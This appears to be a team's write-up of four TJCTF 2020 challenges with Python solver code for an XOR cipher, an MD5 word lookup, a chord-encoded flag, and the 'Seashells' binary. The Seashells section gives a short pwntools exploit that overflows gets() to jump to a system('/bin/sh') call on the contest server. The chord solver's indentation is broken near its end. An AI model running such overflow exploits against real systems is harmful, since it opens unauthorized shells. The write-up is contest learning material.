 # TJCTF 2020

A very nice ctf, StarLabs managed to get 1050 points. I have included some of the writeups here.

### Is this crypto ?

XOR each character with a number to get to range of ASCII.

``` python
a = "Òãèáåþöãðáùè±øâ±ð±õøâòøáýøÿô±åùðå±ùðâ±óôôÿ±ðãþäÿõ±÷þã±àäøåô±ð±ýþÿö±åøüô½±óäå±øÿ±ãôòôÿå±åøüôâ±øå±ùðâ±âôôÿ±ðÿ±ôéáýþâøþÿ±þ÷±ãôâôðãòù±ðÿõ±øüáýôüôÿåðåøþÿ¿±Åùøâ±õøâòøáýøÿô±âôôúâ±åþ±áãþçøõô±âôòäãô±òþüüäÿøòðåøþÿ±ðÿõ±âùðãôõ±õðåð±âåþãðöô±äâøÿö±áäóýøò±úôè±òãèáåþöãðáùè½±æùøòù±ôââôÿåøðýýè±ãôõäòôâ±åùô±õðüðöô±åùðå±òðÿ±óô±õþÿô±åùãþäöù±ôÿòãèáåøþÿ¿››åûòå÷êÿ¡Îåù ¤ÎøâÎúèý¢ì››Åùô±Õðåð±Òôÿåãô±Âåðÿõðãõ±÷þã±Òþÿ÷øõôÿåøðýøåè±ðÿõ±Øÿåôöãøåè±âåðåôâ±åùðå±ð±òþüáäåôã±âèâåôü±üäâå±ÿþå±òþÿåðøÿ±ðÿè±øÿ÷þãüðåøþÿ±åùðå±òðÿÿþå±óô±áãþçøõôõ±ðå±åùô±åøüô±þ÷±ãôàäôâåøÿö±øå¿±Åùô±áäãáþâô±þ÷±åùøâ±âåðÿõðãõ±øâ±åþ±ôÿâäãô±åùðå±ÿþ±õðåð±÷ãþü±ð±òþÿÿôòåôõ±òþüáäåôã±âèâåôü±òðÿ±óô±ðòòôââôõ±óè±ðÿ±äÿðäåùþãøâôõ±áðãåè¿±Åùøâ±æþäýõ±ðýýþæ±äâôãâ±åþ±áãþåôòå±åùôøã±õðåð±ðÿõ±üðúô±åùôøã±áôãâþÿðý±øÿ÷þãüðåøþÿ±âôòäãô½±æùøòù±øâ±üþãô±øüáþãåðÿå±åùðÿ±ôçôã¿"
for i in range(256):
	x = ''.join(list(map(chr, list(map(lambda x: ord(x)^i , a)))))
	if 'tjctf' in x:
		print(i)
		print(x)
# tjctf{n0_th15_is_kyl3}
```

### Titanic

Wrap a lowercase word from a sentence that had been in said in the movie Titanic (1997) and match it with a given md5 hash to get the flag.
I downloaded subtitles of the movie from the internet, and removed the full stop.

``` python
import re
with open('titanic.txt') as h:
	w = h.read()
	w = re.sub(r'[.]*',r'',w)
	w = w.lower()
	w = w.split()
import hashlib
hashlist = []
for word in w:
	word = 'tjctf{' + word + '}'
	hashes = hashlib.md5(word.encode()).hexdigest()
	if hashes == '9326ea0931baf5786cde7f280f965ebb':
		print(word)
		break
		# tjctf{marlborough's}
```

### Seashells

Given a binary, we can overflow the gets function to jump to the system() call in the shell function.
```c
int main() {
    setbuf(*stdout@@GLIBC_2.2.5, 0x0);
    setbuf(*stdin@@GLIBC_2.2.5, 0x0);
    setbuf(*stderr@@GLIBC_2.2.5, 0x0);
    puts("Welcome to Sally's Seashore Shell Shop");
    puts("Would you like a shell?");
    gets(&var_A);
    rax = strcasecmp(&var_A, 0x40086f);
    if (rax != 0x0) {
            puts("why are you even here?");
    }
    else {
            puts("sorry, we are out of stock");
    }
    return 0x0;
}
```

```c
int shell(int arg0) {
    rax = 0xdeadcafebabebeef;
    if (arg0 == rax) {
            rax = system("/bin/sh");
    }
    return rax;
}
```

```python
from pwn import *
binsh = 0x4006E3
_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', _r*b'A' + p64(binsh))
r.interactive()
```


### Chord encoder

So someone as encoded each character of his song with a chord. We can do decoded this, we know what each character would look like in a chord.txt (list type object "chord" in the code). What we can do is, we can made a empty variable and keeping try all the printable characters (from the hint) and if it matches, we can add it to a variable flag. There was one issue with this code that, I had to replace "M" with underscore, as they both end with same number (0 afai remeber) and same with "D".

```python
import string
chord = ["A 0112",
"B 2110",
"C 1012",
"D 020",
"E 0200",
"F 1121",
"G 001",
"a 0122",
"b 2100",
"c 1002",
"d 010",
"e 0100",
"f 1011",
"g 000"
]
l = {'1':'A', '2':'B', '3':'C', '4':'D', '5':'E', '6':'F', '7':'G'}
chords = {}
for i in chord:
	c, n = i.strip().split()
	chords[c] = n
def solve():
	s_flag = "1121112111211002112101121121001001210000101221121011200102000110120200101100100111211011001020020010111012011202001011112110121121011211211002112110020200101111210112020010111121010112102001121100211211011020020001010"
	song_so_far = "flag{zats_wot_1_call_a_me"
	alphabets = string.printable
	while 1:
		for alphabet in alphabets:
			flag = 0
			flag2 = 0
			trying_song = song_so_far + alphabet
			print(f"Trying {trying_song}")
			s = ''
			for i in trying_song:
				c1, c2 = hex(ord(i))[2:]
				# num = 0xab, c1 = a, c2 = b
				if c1 in l:
					c1 = l[c1]
				if c2 in l:
					c2 = l[c2]
				try:
					s += chords[c1] + chords[c2]
				except KeyError as e:
					flag = 1
            if flag != 1 :
                if s_flag.startswith(s):
                    song_so_far += alphabet
                    print(f'Song so far : {song_so_far}')
                    print(s)
                    print(s_flag)
                    break
solve()
# flag{zats_wot_1_call_a_meloD}
```